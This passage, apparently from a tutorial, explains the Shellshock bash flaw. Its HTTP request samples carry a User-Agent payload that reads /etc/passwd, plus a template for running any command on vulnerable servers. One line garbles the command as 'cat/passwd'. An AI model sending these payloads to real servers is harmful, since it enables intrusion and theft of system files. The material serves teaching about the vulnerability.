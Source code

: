 This results in Bash creating and exporting a _function_, called `HTTP_USER_AGENT`, because the value of the `User-Agent` header contained shell code.

Suppose you send the following request:

  ```bash
  GET /index.html HTTP/1.1
  Host: example.com
  User-Agent: () { :;}; /bin/bash -c 'cat /etc/passwd'
  ConnectIon: keep-alive
  ```

Upon receiving this request, Bash will do:

  ```bash
  HTTP_USER_AGENT="() { :;}; /bin/bash -c 'cat /etc/passwd'"
  ```

Older versions of bash would load `HTTP_USER_AGENT="() { :;}"` as a function, and then execute `/bin/bash -c 'cat/passwd'` as a command.

This means that you can run commands on servers vulnerable to Shellshock by sending the following HTTP payload:

  ```bash
  GET /index.html HTTP/1.1
  Host: example.com
  User-Agent: () { :;}; $CMD_TO_RUN
  ConnectIon: keep-alive
  ```